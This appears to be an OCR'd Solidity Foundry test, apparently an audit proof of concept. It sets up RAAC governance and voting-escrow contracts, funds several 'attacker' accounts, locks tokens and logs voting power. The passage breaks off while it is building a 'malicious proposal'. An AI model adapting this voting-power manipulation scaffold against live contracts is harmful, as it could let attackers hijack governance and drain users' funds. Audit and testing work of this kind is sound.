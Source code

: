 ```solidity 
    function setUp() public {
        raacToken = new MockRAACToken();
        veToken = new veRAACToken(address(raacToken));
        
        address[] memory proposers = new address[](1);
        address[] memory executors = new address[](1);
        proposers[0] = admin;
        executors[0] = admin;
        
        timelock = new TimelockController(2 days, proposers, executors, admin);
        governance = new Governance(address(veToken), address(timelock));
​
        timelock.grantRole(timelock.PROPOSER_ROLE(), address(governance));
        timelock.grantRole(timelock.EXECUTOR_ROLE(), address(governance));
​
        // Create multiple attacker accounts
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            attackerAccounts.push(makeAddr(string.concat("attacker", vm.toString(i))));
            // Give each account enough tokens for their larger lock amount
            uint256 accountTokens = 200_000e18 * (i + 1);
            raacToken.transfer(attackerAccounts[i], accountTokens);
        }
​
        // Give extra tokens to attacker0 for the proposal
        raacToken.transfer(attackerAccounts[0], 500_000e18);
​
        // Label accounts for better trace readability
        vm.label(attackerAccounts[1], "legitimateUser");
        vm.label(attackerAccounts[0], "attacker");
    }
​
    function testVotingPowerManipulation() public {
        emit log_string("\n=== Phase 1: Initial Setup ===");
        
        // Attacker0 locks maximum duration initially
        vm.startPrank(attackerAccounts[0]);
        raacToken.approve(address(veToken), 500_000e18);
        veToken.lock(500_000e18, 1460 days); // Max lock duration
        vm.stopPrank();
​
        emit log_named_uint(
            "Attacker0 initial voting power",
            veToken.getVotingPower(attackerAccounts[0])
        );
​
        // Other accounts lock shorter duration
        for(uint i = 1; i < attackerAccounts.length; i++) {
            vm.startPrank(attackerAccounts[i]);
            uint256 lockAmount = 200_000e18 * (i + 1);
            raacToken.approve(address(veToken), lockAmount);
            veToken.lock(lockAmount, 365 days); // Initial minimum lock
            vm.stopPrank();
            
            emit log_named_uint(
                string.concat("Account ", vm.toString(i), " initial voting power"),
                veToken.getVotingPower(attackerAccounts[i])
            );
        }
​
        emit log_string("\n=== Phase 2: Create Malicious Proposal ===");
        
        // Create proposal
        address[] memory targets = new address[](1);
```